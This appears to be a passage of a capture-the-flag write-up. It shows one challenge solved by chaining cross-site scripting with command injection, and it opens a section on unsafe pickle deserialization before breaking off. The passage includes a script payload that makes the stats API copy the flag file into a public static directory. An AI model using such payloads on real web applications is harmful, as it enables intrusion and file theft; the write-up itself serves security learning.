 > `challenge\static\js\script.js`

![](/assets/obsidian/bd9e7554565b24de61c7e04ba2594d56.png){:target='_blank'}

### Command Injection with XSS

Move the flag to web directory

```javascript
<script>fetch("/api/stats?command=cp /flag*.txt /app/static/css/flag.txt");</script>
```

![](/assets/obsidian/b404b6950859499c921e69ef82f41022.png){:target='_blank'}

> http://94.237.56.76:33295/static/css/flag.txt

![](/assets/obsidian/c43327a6839d1d52d0e3bc9f9ce57d64.png){:target='_blank'}


## Spellbound Servants

### Unsafe deserialization - pickle

> `challenge\application\util.py`
